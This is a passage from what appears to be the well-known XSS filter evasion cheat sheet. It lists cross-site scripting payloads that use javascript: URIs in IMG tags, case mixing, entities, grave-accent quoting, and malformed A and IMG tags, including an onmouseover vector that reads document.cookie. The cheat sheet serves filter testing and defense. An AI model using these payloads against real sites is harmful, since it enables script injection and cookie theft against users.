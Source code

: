 Image XSS using the JavaScript directive (IE7.0 doesn't support the JavaScript directive in context of an image, but it does in other contexts, but the following show the principles that would work in other tags as well:

    <IMG SRC="javascript:alert('XSS');">

## No quotes and no semicolon

    <IMG SRC=javascript:alert('XSS')>

## Case insensitive XSS attack vector

    <IMG SRC=JaVaScRiPt:alert('XSS')>

## HTML entities

The semicolons are required for this to work:

    <IMG SRC=javascript:alert(&quot;XSS&quot;)>

## Grave accent obfuscation

If you need to use both double and single quotes you can use a grave accent to encapsulate the JavaScript string - this is also useful because lots of cross site scripting filters don't know about grave accents:

    <IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>

## Malformed A tags

Skip the HREF attribute and get to the meat of the XXS... Submitted by David Cross \~ Verified on Chrome

    \<a onmouseover="alert(document.cookie)"\>xxs link\</a\>

or Chrome loves to replace missing quotes for you... if you ever get stuck just leave them off and Chrome will put them in the right place and fix your missing quotes on a URL or script.

    \<a onmouseover=alert(document.cookie)\>xxs link\</a\>

## Malformed IMG tags

Originally found by Begeek (but cleaned up and shortened to work in all browsers), this XSS vector uses the relaxed rendering engine to create our XSS vector within an IMG tag that should be encapsulated within quotes. I assume this was originally meant to correct sloppy coding. This would make it significantly more difficult to correctly parse apart an HTML tags:

    <IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>

## fromCharCode
